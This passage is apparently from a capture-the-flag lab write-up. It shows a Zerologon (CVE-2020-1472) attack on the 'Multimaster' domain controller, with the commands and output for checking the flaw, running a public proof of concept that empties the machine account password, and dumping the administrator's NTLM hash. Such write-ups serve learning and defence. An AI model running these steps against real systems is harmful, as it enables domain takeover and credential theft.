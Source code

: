 ### Zerologon

This DC can be fully compromised via the [Zerologon](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/) vulnerability without obtaining any credentials.

{% code overflow="wrap" %}
```bash
# checking if the DC is vulnerable to zerologon
$ nxc smb 10.10.10.179 -M zerologon
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
ZEROLOGO... 10.10.10.179    445    MULTIMASTER      VULNERABLE
ZEROLOGO... 10.10.10.179    445    MULTIMASTER      Next step: https://github.com/dirkjanm/CVE-2020-1472
```
{% endcode %}

Next, using the provided [PoC](https://github.com/dirkjanm/CVE-2020-1472), we can directly dump the `ntds.dit`  and use the `administrator`'s hash to compromise the domain.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># cloning the PoC's repo
$ sudo git clone https://github.com/dirkjanm/CVE-2020-1472
Cloning into 'CVE-2020-1472'...
remote: Enumerating objects: 41, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 41 (delta 6), reused 4 (delta 4), pack-reused 29
Receiving objects: 100% (41/41), 23.83 KiB | 595.00 KiB/s, done.
Resolving deltas: 100% (14/14), done.

# moving within the directory
$ cd CVE-2020-1472/

# checking how the script works
$ python3 cve-2020-1472-exploit.py
Usage: zerologon_tester.py &#x3C;dc-name> &#x3C;dc-ip>

Tests whether a domain controller is vulnerable to the Zerologon attack. Resets the DC account password to an empty string when vulnerable.
Note: dc-name should be the (NetBIOS) computer name of the domain controller.
<strong>
</strong><strong># using the PoC
</strong>$ python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
========
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!

# dumping the administrator's hash
$ nxc smb 10.10.10.179 -u 'MULTIMASTER$' -p '' --ntds --user administrator
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\MULTIMASTER$:********
SMB         10.10.10.179    445    MULTIMASTER      [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.179    445    MULTIMASTER      [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.179    445    MULTIMASTER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:69c&#x3C;REDACTED>be0:::

[^1]: Elevation of Privileges
[^2]: Living Off The Land
[^3]: Elevation of Privileges
[^4]: Proof of Concept
[^5]: Living Off The Land
[^6]: Elevation of Privileges
[^7]: Living Off The Land
[^8]: Elevation of Privileges
[^9]: Living Off The Land